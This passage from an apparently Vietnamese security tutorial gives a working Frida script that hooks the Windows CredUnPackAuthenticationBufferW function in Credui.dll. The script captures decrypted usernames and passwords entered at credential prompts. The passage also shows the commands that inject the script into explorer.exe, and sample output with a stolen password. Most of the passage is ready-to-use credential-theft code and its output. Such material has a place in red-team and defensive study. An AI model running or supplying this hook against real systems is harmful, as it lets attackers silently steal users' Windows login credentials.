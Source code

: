 Tham số mà chúng ta cần quan tâm đó là: `pszUserName` và `pszPassword`.
```javascript
var pszUserName, pszPassword, decryptedUsername, decryptedPassword;
var credUnPackAuthenticationBufferW = Module.findExportByName("Credui.dll", "CredUnPackAuthenticationBufferW");

Interceptor.attach(credUnPackAuthenticationBufferW, {
    onEnter: function (args)
	{
        // Credentials here are still encrypted
        pszUserName = args[3];
        pszPassword = args[7];
    },
    
	onLeave: function (result)
	{
        // Credentials are now decrypted
        decryptedUsername = pszUserName.readUtf16String()
        decryptedPassword = pszPassword.readUtf16String()
        if (decryptedUsername && decryptedPassword)
		{
			console.log("\n[*] Intercepted Credentials: ");
			console.log("[+] Username: " + decryptedUsername);
			console.log("[+] Password: " + decryptedPassword);
        }
    }
});
```
Dùng Frida hook vào `Explorer`:
```powershell
$ frida-ps | findstr "explorer"
 6724  explorer.exe

$ frida -l .\hooking\credential_theft.js -p 6724
```

Làm tương tự các bước như trên để nhập `username` và `password`. Sau đó quan sát trên Frida, ta có được thông tin xác thực đã bị chặn bắt:
```powershell
frida -l .\hooking\credential_theft.js -p 6724
     ____
    / _  |   Frida 14.2.18 - A world-class dynamic instrumentation toolkit
   | (_| |
    > _  |   Commands:
   /_/ |_|       help      -> Displays the help system
   . . . .       object?   -> Display information about 'object'
   . . . .       exit/quit -> Exit
   . . . .
   . . . .   More info at https://frida.re/docs/home/

[Local::PID::6724]->
[*] Intercepted Credentials:
[+] Username: %COMPUTERNAME%\Alice
[+] Password: this_1s_s3cret_passw0rd
```
